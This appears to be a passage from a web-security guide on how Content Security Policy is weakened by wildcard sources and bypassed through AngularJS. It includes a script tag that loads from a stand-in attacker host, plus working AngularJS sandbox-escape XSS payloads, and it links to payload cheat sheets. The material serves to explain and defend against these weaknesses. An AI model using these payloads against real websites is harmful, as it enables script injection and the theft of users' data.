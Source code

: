 Using `*` with `script-src`, `object-src` or `default-src` allows content loading from an unlimited range of sources.

For example, the following CSP allows the direct loading of malicious scripts from arbitrary resources.

```html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src *;">
</head>
<body>
    <script src=https://attacker-website.com/script.js></script>
</body>
```

# Frameworks and libraries

## AngularJS

AngularJS can be used to bypass the CSP if it is used by the page or if the CSP allows loading from a remote resource.

The following example uses AngularJS events to access the `window` object and escape from a sandbox.

```html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src https://cdnjs.cloudflare.com;">
    <script type="text/javascript" src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.5/angular.js"></script>
</head>
<body ng-app ng-csp>
    <input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'">
</body>
```

In the next example, `prototype.js` is used to access the `window` object. In other words, the payload uses `prototype.js` to access the `window` object from `AngularJS`.

```html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src https://ajax.googleapis.com;">
    <script src=https://ajax.googleapis.com/ajax/libs/angularjs/1.0.1/angular.js></script>
    <script src=https://ajax.googleapis.com/ajax/libs/prototype/1.7.2.0/prototype.js></script>
</head>
<body class="ng-app" ng-csp>
    {{$on.curry.call().alert(1)}}
</body>
```

More AngularJS payloads can be found at (part of the payloads require user interaction or `unsafe-eval` to be set):
- [PortSwigger Cross-site scripting (XSS) cheat sheet: AngularJS CSP bypasses](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-csp-bypasses)
- [H5SC Minichallenge 3: "Sh*t, it's CSP!"](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3%3A-%22Sh%2At%2C-it%27s-CSP%21%22)
- [PortSwigger Cross-site scripting (XSS) cheat sheet: AngularJS sandbox escapes reflected](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-sandbox-escapes-reflected)
- [PortSwigger Cross-site scripting (XSS) cheat sheet: DOM based AngularJS sandbox escapes](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#dom-based-angularjs-sandbox-escapes)
